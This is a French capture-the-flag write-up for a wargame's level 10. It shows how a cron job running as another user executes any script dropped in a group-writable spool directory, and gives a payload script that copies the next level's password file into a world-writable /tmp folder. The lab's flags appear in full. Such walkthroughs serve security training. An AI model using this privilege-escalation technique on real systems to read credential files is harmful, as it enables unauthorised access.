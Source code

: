 # Write up : Wargames

### Level 10  


Consigne :

```
Dernier challenge du wargame !<br>

Consigne lvl10 :<br>
L'administrateur a créé la tâche cron suivante. Celle-ci s'exécute en tant qu'utilisateur challenge11.<p>
   
&nbsp;&nbsp;&nbsp;cat /var/spool/cron/crontabs/challenge11<br>
       &nbsp;&nbsp;&nbsp;* * * * * /usr/bin/script_challenge10.sh<p>

Trouver la vulnérabilité.<br>    


Se connecter à l'adresse suivante : <br />
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<FONT COLOR="#ff0000">ssh -p 6666 challenge10@game1.marshack.fr</FONT> <br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;password : [flag obtenu dans l'épreuve précédente]
```

Connexion

```
ssh -p 6666 challenge10@game1.marshack.fr
password: MARS{PDaJS6MkwQMd5N5o5ILQld0Ue1mxm90T}
```



Analyse de la tâche cron 

```
* * * * * /usr/bin/script_challenge10.sh
```

Cette tâche exécute le programme /usr/bin/script_challenge10.sh toutes les minutes.



Visualiser droits et permissions

```
challenge10@be9f0e178887:~$ ls -l /usr/bin/script_challenge10.sh
-r-xr-xr-- 1 root challenge11     273 Jan 18 20:11 script_challenge10.sh
```

Analyse

-   challenge10 :  peut lire le fichier (mais pas l'exécuter)

-   challenge11 :  peut lire et exécuter le fichier



Affichage du fichier /usr/bin/script_challenge10.sh

```
challenge10@be9f0e178887:~$ cat /usr/bin/script_challenge10.sh 

#!/bin/bash

cd /var/spool/challenge11
echo "Executing and deleting all scripts in /var/spool/challenge11:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        /usr/bin/timeout -s 9 30 ./$i
        /bin/rm -Rf ./$i
    fi
done


```

Analyse du programme

   Le programme exécute une boucle qui :
- ​    exécute tous les scripts qui se trouvent dans /var/spool/challenge11
- ​    tue la tache si le script s'exécute en arrière-plan
- ​    efface tous les programmes contenus dans /var/spool/challenge11



Visualiser droits et permissions répertoire /var/spool/challenge11

```
challenge10@be9f0e178887:~$ ls -l /var/spool

drwxr-xr-x 1 root        root        4096 Jan 18 22:22 .
drwxrwx--- 1 challenge11 challenge10 4096 Jan 18 22:22 challenge11

```

 Analyse

- ​    challenge11
  - propriétaire du dossier
  - autorisé à éxécuter du contenu
  - autorisé à lire et supprimer du contenu
- ​    challenge10: 
  -  autorisé à lire le contenu
  - autorisé à écrire un fichier et/ou un dossier
  - autorisé à traverser le dossier


On s'aperçoit donc que challenge10 peut créer un script et le déposer dans le dossier /var/spool/challenge11 

Le script sera exécuté par la tâche *cron* sous l'utilisateur challenge11 et devra  :

- lire le contenu de /etc/wargames_pass/level11/level11_password
- exporter le flag dans le répertoire /tmp/test/

```
challenge10@7051d181892c:~$ mkdir /tmp/test
challenge10@7051d181892c:~$ chmod 777 /tmp/test
challenge10@7051d181892c:~$ vi /tmp/test/payload.sh
#!/bin/sh
cat /etc/wargames_pass/level11/level11_password > /tmp/test/flag

challenge10@7051d181892c:~$ chmod 777 /tmp/test/payload.sh
challenge10@7051d181892c:~$ cp -p /tmp/test/payload.sh /var/spool/challenge11/payload.sh

```
Attendre 1 minute

Le répertoire doit contenir le fichier /tmp/test/flag contenant le flag

```
challenge10@7051d181892c:~$ cat /tmp/test/flag
```


Résultat : MARS{5u3FphfyJKqmP44eTgVGr5r6XiSmmcWf}